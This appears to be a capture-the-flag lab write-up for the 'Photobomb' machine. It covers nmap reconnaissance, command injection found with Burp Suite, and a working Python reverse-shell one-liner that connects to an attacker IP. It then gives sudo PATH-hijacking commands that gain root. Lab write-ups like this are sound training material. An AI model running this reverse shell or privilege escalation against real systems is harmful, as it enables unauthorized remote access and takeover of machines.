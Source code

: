 ```bash
└─$ sudo nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-11 17:20 EST
Nmap scan report for 10.10.11.182
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.38 seconds
```

```bash
nano /etc/hosts
```

![[Pasted image 20221211192733.png]]

![[Pasted image 20221211192921.png]]

Just fooling around, I decided to click on the *click here* link:

![[Pasted image 20221211193036.png]]

Obviously I did not have any username and password, so I thought about checking the source-code for any hints

![[Pasted image 20221211193506.png]]

By checking the .js code you're gonna find the following page:

![[Pasted image 20221211193721.png]]

![[Pasted image 20221211193739.png]]

And this is what you see after clicking 'ok'

![[Pasted image 20221211193817.png]]

After that I got my burp suite up and running... After a few tries, I got a successfull command injection, so I used revshells.com to get a reverse shell code:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.134",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And used it in my request 

![[Pasted image 20221211200225.png]]

And there you go, user flag *cheeeck*!

Now, for the root flag I used the following commands:

```bash
sudo -l

$ cat /opt/cleanup.sh
$ echo bash > find
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

Once you're root, just go to the default directory and get your root flag!
